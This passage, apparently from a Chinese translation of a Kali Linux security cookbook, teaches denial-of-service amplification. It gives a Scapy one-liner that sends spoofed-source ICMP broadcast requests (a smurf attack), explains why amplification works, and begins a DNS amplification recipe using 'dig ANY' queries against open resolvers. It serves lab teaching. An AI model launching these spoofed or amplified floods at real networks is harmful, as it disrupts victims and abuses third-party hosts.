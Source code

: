 实际上，两个响应地址不足以执行有效的 DoS 攻击。 如果这个练习复制到另一个具有半现代化主机的实验室中，结果很可能是类似的。 在有足够的响应地址来触发拒绝服务的情况下，源地址将需要替换为了攻击目标的 IP 地址：

```
>>> send(IP(dst="172.16.36.255",src="172.16.36.135")/ ICMP(),count=100,verbose=1) 
......................................................................... ........................... 
Sent 100 packets. 
```

在提供的示例中，Scapy 的单行命令用于执行与之前讨论的相同操作，但此时除外，源 IP 地址被伪造为 LAN 上另一个系统的地址。 此外，`count`可用于按顺序发送多个请求。

### 工作原理

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

+   用于执行攻击的协议不验证请求源
+   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

传统 smurf 攻击的效率取决于 LAN 上响应 IP 定向的广播流量的主机。 这种主机从目标系统的伪造 IP 地址接收 ICMP 广播回响请求，然后针对接收到的每个请求同时返回 ICMP 回响应答。

## 6.4 DNS 放大 DoS 攻击

DNS 放大攻击通过对给定域执行所有类型记录的伪造查询，来利用开放的 DNS 解析器。 通过同时向多个开放的解析器发送请求来使用 DDoS 组件，可以提高这种攻击的效率。

### 准备

为了模拟 DNS 放大攻击，你需要有一个本地名称服务器，或知道一个开放和可公开访问的名称服务器的 IP 地址。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了了解 DNS 放大的工作原理，可以使用基本的 DNS 查询工具，如`host`，`dig`或`nslookup`。 通过对与已建立的域相关的所有记录类型执行请求，你将注意到一些请求返回了相当大的响应：

```
root@KaliLinux:~# dig ANY google.com @208.67.220.220

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> ANY google.com @208.67.220.220 
;; global options: +cmd
;; Got answer: 
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41539 
;; flags: qr rd ra; QUERY: 1, ANSWER: 17, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION: ;
google.com.         IN   ANY
;; ANSWER SECTION: 
google.com.      181   IN   A   74.125.232.101 
google.com.      181   IN   A   74.125.232.97 
google.com.      181   IN   A   74.125.232.102 
google.com.      181   IN   A   74.125.232.99 
google.com.      181   IN   A   74.125.232.104 
google.com.      181   IN   A   74.125.232.96 
google.com.      181   IN   A   74.125.232.100 
google.com.      181   IN   A   74.125.232.103 
google.com.      181   IN   A   74.125.232.105 
google.com.      181   IN   A   74.125.232.98 
google.com.      181   IN   A   74.125.232.110 
google.com.      174   IN   AAAA   2607:f8b0:4004:803::1007 
google.com.      167024   IN   NS   ns2.
google.com. 
google.com.      167024   IN   NS   ns1.
google.com. 
google.com.      167024   IN   NS   ns3.
google.com. 
google.com.      167024   IN   NS   ns4.
google.com. 
```